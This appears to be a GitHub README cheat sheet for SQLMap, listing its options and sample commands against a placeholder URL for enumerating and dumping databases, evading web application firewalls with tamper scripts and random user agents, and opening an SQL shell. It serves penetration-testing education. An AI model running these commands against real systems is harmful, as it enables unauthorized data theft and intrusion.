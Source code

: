 ## What is SQLMap?

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in database systems. It is widely used by security professionals to perform ethical hacking and vulnerability assessments. 

### Uses of SQLMap:
- Detect and exploit SQL injection vulnerabilities in web applications.
- Retrieve information from the database such as tables, columns, and data.
- Bypass web application firewalls (WAF) and filters using tamper scripts.
- Automate SQL injection testing for large-scale assessments.
- Extract sensitive data like user credentials or confidential records.
- Test and validate the security of database-driven applications.
- Gain insights into the database structure for further analysis.

## Common Options

- `--dbs` : **List all databases** present. Use this to see the databases available on the target server.
- `--banner` : **Retrieve the database version**. Helps identify the DBMS type and version.
- `--batch` : **Automate the process** (SQLMap won't prompt for user inputs). Useful for running SQLMap in non-interactive mode.
- `--tables` : **Get table names** in the current or specified database. Helpful for discovering the schema.
- `-D <database>` : **Specify a database** to target. Used in conjunction with other options to focus on a specific database.
- `-t <table>` : **Specify a table** to target.
- `--dump-all` : **Dump all data** from the specified table or database. Extracts information from the database.
- `--cookie <cookie>` : **Specify cookie information** (e.g., for authentication). Obtain the cookie by inspecting the web element in your browser.
- `--wizard` : **Enable a user-friendly interface**. Great for beginners who want step-by-step guidance.
- `--list-tamper` : **List available tamper scripts**. Shows tampering modules to evade detection or bypass filters.
- `--random-agent` : **Use a random user agent**. Helps disguise SQLMap requests as originating from various devices or browsers.
- `--tamper <module>` : **Enable a tamper module** to bypass WAF/filters. For example, to obfuscate SQL queries.
- `--mobile` : **Simulate a mobile device**. Useful for websites that serve different content based on the user agent.
- `--crawl <level>` : **Crawl for links** related to the provided URL. Levels can be 1, 2, or 3 for increasing depth.
- `--columns` : **List column names** of a table. Useful to understand the structure of a table.
- `--count` : **Count the total number of records** in a table. Helps gauge the amount of data.

## Commonly Used SQLMap Commands

1. `sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`  
   **List all databases** available on the target.

2. `sqlmap -u "http://example.com/vulnerable.php?id=1" -D <database_name> --tables`  
   **Retrieve table names** from the specified database.

3. `sqlmap -u "http://example.com/vulnerable.php?id=1" -D <database_name> -T <table_name> --columns`  
   **List columns** from the specified table.

4. `sqlmap -u "http://example.com/vulnerable.php?id=1" -D <database_name> -T <table_name> --dump`  
   **Dump all data** from the specified table.

5. `sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="SESSIONID=abcdef" --dbs`  
   **Include a cookie** to access authenticated pages.

6. `sqlmap -u "http://example.com/vulnerable.php?id=1" --wizard`  
   **Use wizard mode** for guided execution.

7. `sqlmap -u "http://example.com/vulnerable.php?id=1" --mobile`  
   **Simulate requests from a mobile device.**

8. `sqlmap -r req.txt --dbs --random-agent`  
   **Use an HTTP request file** (e.g., captured by tools like Burp Suite) to target specific requests with a random user agent.

## SQL Shell Options

- `--sql-shell` : **Open an interactive SQL shell**. Allows running SQL queries directly on the database.

### Common SQL Commands in Shell

1. `database();`  
   **Retrieve database information** like the current database name.

2. `SELECT table_name FROM information_schema.tables WHERE table_schema = 'database_name';`  
   **List table names** in the specified database. Useful for exploring database schemas.

3. `SELECT * FROM database_name.table_name;`  
   **Retrieve all records** from the specified table. Be cautious, as large tables may return significant amounts of data.

4. `x`  
   **Exit the SQL shell**. Ends the interactive SQL session.

---

### Key Notes:
- Always check for authorization before testing a website to ensure ethical use.
- Combine multiple options (e.g., `-D`, `--tables`, `--columns`) for targeted attacks to minimize noise.
- Use tamper scripts wisely to bypass advanced protections or obfuscate queries.

## More Learning

For further learning about SQLMap and SQL injection, check out the following resources:

- [SQLMap Official Documentation](https://sqlmap.org/documentation/)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
- [TryHackMe SQLMap Room](https://tryhackme.com/room/sqlmap)
- [PentesterLab SQL Injection Exercises](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
- [HackTricks SQL Injection Wiki](https://book.hacktricks.xyz/pentesting-web/sql-injection)
